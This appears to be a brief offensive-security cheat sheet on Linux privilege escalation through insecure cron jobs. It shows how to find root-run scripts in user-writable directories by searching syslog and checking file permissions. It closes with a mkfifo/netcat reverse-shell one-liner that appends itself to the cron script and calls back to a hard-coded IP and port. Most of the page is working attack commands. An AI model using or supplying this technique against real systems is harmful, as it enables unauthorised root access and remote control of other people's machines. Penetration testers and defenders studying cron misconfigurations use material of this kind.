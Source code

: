 On a Linux system, the cron time-based job scheduler is a prime target, since system-level scheduled jobs are executed with root user privileges and system administrators often create scripts for cron jobs with insecure permissions.

# Enumeration
```bash
grep "CRON" /var/log/syslog
```
Example vulnerable log showing root running a script in a user writeable directory:
![image](https://github.com/user-attachments/assets/93cf4552-bb6f-4bb0-b373-e6a84ff5afcf)

## Inspect Content/Permissions of cron job
```bash
ls -lah /home/joe/.scripts/user_backups.sh
```
```bash
cat /home/joe/.scripts/user_backups.sh
```
### Revshell Oneliner
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f" >> $(CRONJOB_FILE)
```

